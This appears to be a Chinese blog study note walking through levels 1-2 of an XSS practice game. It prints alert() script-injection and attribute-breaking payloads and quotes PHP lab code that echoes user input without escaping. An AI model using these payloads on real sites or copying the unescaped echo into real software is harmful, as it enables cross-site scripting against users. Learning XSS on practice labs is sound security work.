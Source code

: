 ```yaml
---
title: security-5 xss小游戏
date: 2019-05-03 21:06:59
categories: 网络安全笔记
---
```

# 说明
- xss小游戏答案与解析 针对level 1-18
- 有的html实体编码我用单引号如java'&''#'115;cript:alert()


# level-1
- 这道题很简单直接在url上输入payload

```
&#60;script>alert(1)&#60;/script>
```

- 源代码分析

```
$str = $_GET["name"];
echo "&#60;h2 align=center>欢迎用户".$str."&#60;/h2>";
```
- 发现源代码，对url输入的参数没有任何过滤

# level-2
- 输入level-1的payload，可以看出对url的参数转译成HTML实体
- 查看源码

```
$str = $_GET["keyword"];
echo "&#60;h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'&#60;center>
&#60;form action=level2.php method=GET>
&#60;input name=keyword  value="'.$str.'"> //没有实体化
&#60;input type=submit name=submit value="搜索"/> 
&#60;/form>
```
- htmlspecialchars() 
函数把预定义的字符转换为 HTML 实体
- 但是发现在form表单输出并没有实体化，可以在表单输入如下payload

```
1">&#60script>alert(1)&#60/script>//
```
- 也可以在url输入如下payload

```
"onclick="window.alert()
```
- 点击表单，就会弹出弹窗
